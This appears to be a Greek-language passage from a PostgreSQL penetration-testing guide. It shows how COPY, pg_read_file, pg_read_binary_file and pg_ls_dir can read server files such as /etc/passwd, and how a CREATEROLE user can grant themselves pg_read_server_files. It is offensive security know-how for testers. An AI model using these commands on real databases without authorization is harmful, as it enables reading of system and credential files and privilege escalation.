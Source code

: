 ### Διαβάστε καταλόγους και αρχεία

Από αυτήν την [**αλλαγή**](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) μέλη της ορισμένης ομάδας **`DEFAULT_ROLE_READ_SERVER_FILES`** (που ονομάζεται **`pg_read_server_files`**) και **υπερχρήστες** μπορούν να χρησιμοποιήσουν τη μέθοδο **`COPY`** σε οποιοδήποτε διαδρομή (ελέγξτε το `convert_and_check_filename` στο `genfile.c`):
```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```
{% hint style="warning" %}
Να θυμάστε ότι αν δεν είστε υπερχρήστης αλλά έχετε δικαιώματα **CREATEROLE** μπορείτε **να γίνετε μέλος αυτής της ομάδας:**
```sql
GRANT pg_read_server_files TO username;
```
[**Περισσότερες πληροφορίες.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Υπάρχουν **άλλες λειτουργίες της postgres** που μπορούν να χρησιμοποιηθούν για **ανάγνωση αρχείου ή λίστα καταλόγου**. Μόνο **υπερχρήστες** και **χρήστες με ρητές άδειες** μπορούν να τις χρησιμοποιήσουν:
```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```
Μπορείτε να βρείτε **περισσότερες λειτουργίες** στο [https://www.postgresql.org/docs/current/functions-admin.html](https://www.postgresql.org/docs/current/functions-admin.html)

### Απλή Εγγραφή Αρχείου

Μόνο **υπερχρήστες** και μέλη του **`pg_write_server_files`** μπορούν να χρησιμοποιήσουν την εντολή copy για την εγγραφή αρχείων.
